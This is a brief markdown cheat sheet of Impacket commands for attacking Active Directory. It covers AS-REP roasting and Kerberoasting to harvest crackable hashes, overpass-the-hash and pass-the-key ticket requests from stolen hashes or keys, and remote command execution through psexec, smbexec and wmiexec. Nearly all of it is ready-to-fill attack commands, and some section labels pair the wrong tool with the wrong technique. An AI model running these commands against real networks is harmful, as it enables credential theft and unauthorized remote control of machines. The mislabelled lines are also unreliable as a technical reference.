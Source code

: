 # Impacket Kerberoasting

## Check for Kerberoasting: 

- `GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john`

## GetUserSPNs

ASREPRoast:
- `impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`
- `impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

Kerberoasting: 
- `impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> `

Overpass The Hash/Pass The Key (PTK):
- `python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>`
- `python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>`
- `python3 getTGT.py <domain_name>/<user_name>:[password]`

## Using TGT key to excute remote commands from the following impacket scripts:

- `python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`
- `python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`
- `python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`


